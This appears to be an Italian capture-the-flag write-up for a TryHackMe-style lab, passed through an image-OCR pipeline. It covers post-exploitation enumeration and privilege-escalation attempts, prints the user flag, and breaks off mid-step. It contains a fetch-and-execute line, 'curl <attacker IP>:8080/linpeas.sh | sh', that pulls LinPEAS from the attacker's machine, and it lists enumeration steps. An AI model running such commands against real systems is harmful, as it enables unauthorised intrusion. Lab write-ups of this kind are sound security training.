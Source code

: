 ```
su mario
```
e ci siamo..
```
id
uid=1001(mario) gid=1001(mario) groups=1001(mario)
```
cerchiamo user.txt
```
find / -name "user.txt" 2>/dev/null
```
```
/home/mario/user.txt
```
```
cat /home/mario/user.txt
```
non la fa leggere richiede privilegi di root
proviamo a copiarla in tmp
```
cp /home/mario/user.txt /tmp/user.txt
```

```
cat /tmp/user.txt
```
```
thm{030a769febb1b3291da1375234b84283}
```

dopo aver provato ad scalare i privilegi con suid e tentata enumerazione manuale
ho provato a vedere con LinPeas
```
cd /home/kali/linpeas/
```

dal pc attaccante apriamo un server python
```
sudo python3 -m http.server 8080 #Host
```
dalla vittima  facciamo puntare al nostro IP al tools linpeas
```
curl 10.14.99.134:8080/linpeas.sh | sh 
```

Guardando l'output dei linpeas
il file **/etc/hosts** era scrivibile.

Ho usato pspy64 per monitorare l'attività del sistema in tempo reale.
Utilizziamo lo [script pspy](https://github.com/DominicBreuker/pspy) per elencare i processi in esecuzione. Lo script ci permette di visualizzare i processi in esecuzione di tutti gli utenti senza privilegi sudo. Scarica lo script sul tuo computer.

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

avvia un server web Python sulla tua macchina Kali con il seguente comando.
